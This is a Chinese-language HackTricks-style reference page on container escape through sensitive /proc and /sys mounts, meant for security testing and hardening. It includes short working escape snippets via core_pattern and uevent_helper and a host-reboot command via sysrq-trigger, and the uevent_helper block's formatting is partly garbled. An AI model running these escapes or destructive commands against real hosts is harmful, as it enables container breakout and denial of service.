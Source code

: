 # 敏感挂载

{{#include ../../../../banners/hacktricks-training.md}}

暴露 `/proc` 和 `/sys` 而没有适当的命名空间隔离会引入重大安全风险，包括攻击面扩大和信息泄露。这些目录包含敏感文件，如果配置错误或被未经授权的用户访问，可能导致容器逃逸、主机修改或提供有助于进一步攻击的信息。例如，错误地挂载 `-v /proc:/host/proc` 可能会由于其基于路径的特性绕过 AppArmor 保护，使得 `/host/proc` 没有保护。

**您可以在** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)** 中找到每个潜在漏洞的更多详细信息。**

## procfs 漏洞

### `/proc/sys`

该目录允许访问以修改内核变量，通常通过 `sysctl(2)`，并包含几个关注的子目录：

#### **`/proc/sys/kernel/core_pattern`**

- 在 [core(5)](https://man7.org/linux/man-pages/man5/core.5.html) 中描述。
- 允许定义在核心文件生成时执行的程序，前 128 字节作为参数。如果文件以管道 `|` 开头，可能导致代码执行。
- **测试和利用示例**：

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # 测试写入访问
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # 设置自定义处理程序
sleep 5 && ./crash & # 触发处理程序
```

#### **`/proc/sys/kernel/modprobe`**

- 在 [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) 中详细说明。
- 包含内核模块加载器的路径，用于加载内核模块。
- **检查访问示例**：

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # 检查对 modprobe 的访问
```

#### **`/proc/sys/vm/panic_on_oom`**

- 在 [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) 中引用。
- 一个全局标志，控制内核在发生 OOM 条件时是否崩溃或调用 OOM 杀手。

#### **`/proc/sys/fs`**

- 根据 [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)，包含有关文件系统的选项和信息。
- 写入访问可能会启用对主机的各种拒绝服务攻击。

#### **`/proc/sys/fs/binfmt_misc`**

- 允许根据其魔数注册非本地二进制格式的解释器。
- 如果 `/proc/sys/fs/binfmt_misc/register` 可写，可能导致特权升级或 root shell 访问。
- 相关利用和解释：
- [Poor man's rootkit via binfmt_misc](https://github.com/toffan/binfmt_misc)
- 深入教程：[视频链接](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### 其他 `/proc` 中的内容

#### **`/proc/config.gz`**

- 如果启用了 `CONFIG_IKCONFIG_PROC`，可能会泄露内核配置。
- 对攻击者识别运行内核中的漏洞非常有用。

#### **`/proc/sysrq-trigger`**

- 允许调用 Sysrq 命令，可能导致立即重启系统或其他关键操作。
- **重启主机示例**：

```bash
echo b > /proc/sysrq-trigger # 重启主机
```

#### **`/proc/kmsg`**

- 暴露内核环形缓冲区消息。
- 可以帮助进行内核利用、地址泄露，并提供敏感系统信息。

#### **`/proc/kallsyms`**

- 列出内核导出的符号及其地址。
- 对于内核利用开发至关重要，尤其是在克服 KASLR 时。
- 地址信息在 `kptr_restrict` 设置为 `1` 或 `2` 时受到限制。
- 详细信息见 [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

#### **`/proc/[pid]/mem`**

- 与内核内存设备 `/dev/mem` 交互。
- 历史上容易受到特权升级攻击。
- 更多信息见 [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

#### **`/proc/kcore`**

- 以 ELF 核心格式表示系统的物理内存。
- 读取可能会泄露主机系统和其他容器的内存内容。
- 大文件大小可能导致读取问题或软件崩溃。
- 详细用法见 [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/)。

#### **`/proc/kmem`**

- `/dev/kmem` 的替代接口，表示内核虚拟内存。
- 允许读取和写入，因此可以直接修改内核内存。

#### **`/proc/mem`**

- `/dev/mem` 的替代接口，表示物理内存。
- 允许读取和写入，修改所有内存需要解析虚拟地址到物理地址。

#### **`/proc/sched_debug`**

- 返回进程调度信息，绕过 PID 命名空间保护。
- 暴露进程名称、ID 和 cgroup 标识符。

#### **`/proc/[pid]/mountinfo`**

- 提供有关进程挂载命名空间中挂载点的信息。
- 暴露容器 `rootfs` 或映像的位置。

### `/sys` 漏洞

#### **`/sys/kernel/uevent_helper`**

- 用于处理内核设备 `uevents`。
- 写入 `/sys/kernel/uevent_helper` 可以在 `uevent` 触发时执行任意脚本。
- **利用示例**： %%%bash

#### 创建有效负载

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### 从 OverlayFS 挂载中查找主机路径

host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

#### 将 uevent_helper 设置为恶意助手

echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

#### 触发 uevent

echo change > /sys/class/mem/null/uevent

#### 读取输出

cat /output %%%

#### **`/sys/class/thermal`**

- 控制温度设置，可能导致 DoS 攻击或物理损坏。

#### **`/sys/kernel/vmcoreinfo`**

- 泄露内核地址，可能危及 KASLR。

#### **`/sys/kernel/security`**

- 存放 `securityfs` 接口，允许配置 Linux 安全模块，如 AppArmor。
- 访问可能使容器能够禁用其 MAC 系统。

#### **`/sys/firmware/efi/vars` 和 `/sys/firmware/efi/efivars`**

- 暴露与 NVRAM 中的 EFI 变量交互的接口。
- 配置错误或利用可能导致笔记本电脑砖化或主机无法启动。

#### **`/sys/kernel/debug`**

- `debugfs` 提供了一个“无规则”的调试接口给内核。
- 由于其不受限制的特性，历史上存在安全问题。

### 参考文献

- [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
- [理解和强化 Linux 容器](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
- [滥用特权和非特权 Linux 容器](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)

{{#include ../../../../banners/hacktricks-training.md}}
